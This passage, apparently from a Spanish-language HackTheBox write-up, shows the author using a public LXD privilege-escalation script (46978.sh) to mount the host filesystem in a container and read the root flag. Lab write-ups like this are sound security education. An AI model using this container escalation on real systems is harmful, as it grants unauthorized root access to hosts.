 ```
ash@tabby:~$ bash 46978.sh -f alpine-v3.22-x86_64-20250809_0956.tar.gz 
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first instance, try: lxc launch ubuntu:18.04

[*] Listing images...

+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
| alpine | 212b7bcbc5ee | no     | alpine v3.22 (20250809_09:56) | x86_64       | CONTAINER | 3.85MB | Aug 9, 2025 at 8:09am (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
Creating privesc
Device giveMeRoot added to privesc
```

Y si accedemos a **/mnt/root** tendremos la **root flag**:

```
~ # cd /mnt
/mnt # ls
root
/mnt # cd root/
/mnt/root # ls
bin         etc         lib64       mnt         run         sys
boot        home        libx32      opt         sbin        tmp
cdrom       lib         lost+found  proc        snap        usr
dev         lib32       media       root        srv         var
/mnt/root # cd root/
/mnt/root/root # ls
root.txt  snap
/mnt/root/root # cat root.txt 
c71b3dcb742ac1442...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/259)

---